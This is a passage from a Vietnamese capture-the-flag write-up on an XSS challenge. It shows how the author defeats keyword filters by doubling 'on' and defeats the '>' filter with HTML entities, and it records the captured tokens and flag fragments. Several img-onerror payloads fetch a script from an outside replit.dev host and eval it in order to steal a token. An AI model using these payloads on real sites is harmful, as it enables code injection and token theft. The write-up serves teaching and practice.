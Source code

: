 Submit purell-token{XSS_IS_UNSTOPPABLE_RAHHHH} và mình có part 3 của flag : h4nd_g34m_

Đến với level 3, web sẽ lowercase payload và replace các từ script và on trong payload nhưng lại không giới hạn ký tự

![image](https://hackmd.io/_uploads/S1ffcCtKyx.png)

Đến đây thì mình không thể xài được Script luôn. Nhưng vi web replace nên mình có thể double lên và bypass được oonn => on. Và mình có thể tự host payload và dùng script src hoặc dùng fetch eval để chạy như sau

![image](https://hackmd.io/_uploads/BJrB6RtKke.png)

Vì web không chặn samesite nên mình có thể fetch được dễ dàng

```html 
<img src=x oonnerror="fetch('https://9288206c-d9c3-4819-83d6-28c85eb8d228-00-1nbm4b0t9pkbs.spock.replit.dev/exploit.js').then(response=>response.text()).then(data=>coonnsole.log(data))" />
```

![image](https://hackmd.io/_uploads/S1YHh0KF1l.png)

Và từ đó ta có payload sau để lấy token

```html
<img src=x oonnerror="fetch('https://9288206c-d9c3-4819-83d6-28c85eb8d228-00-1nbm4b0t9pkbs.spock.replit.dev/exploit.js').then(r=>r.text()).then(data=>eval(data))" />
```

![image](https://hackmd.io/_uploads/BkCGRAKt1g.png)

Submit purell-token{a_l7l_b7t_0f_m00t4t70n} và mình có part 4 của flag : 4cr0ss_411_t1m3

Đến với level 4 ở đây web replace hết kí tự '>' dùng cho đóng tag và mình không thể double nó lên hay làm gì được. 

![image](https://hackmd.io/_uploads/rJwI0AFtye.png)

Sau một hồi tìm kiếm thì mình có thể bypass bằng cách sử dụng HTML Entities 

https://www.toptal.com/designers/htmlarrows/

![image](https://hackmd.io/_uploads/HyH-by5K1l.png)

Từ đó ta có payload sau để lấy token

```html
<img src=x oonnerror="fetch('https://9288206c-d9c3-4819-83d6-28c85eb8d228-00-1nbm4b0t9pkbs.spock.replit.dev/exploit.js').then(r=&gt;r.text()).then(data=&gt;eval(data))" /
```

![image](https://hackmd.io/_uploads/HJtc-1qYJx.png)


Submit purell-token{html_7s_m4lf0rmed_bu7_no7_u} và mình có part 5 của flag : _4nd_z_

Tới level 5, ở đây web cấm luôn các khoảng trắng.
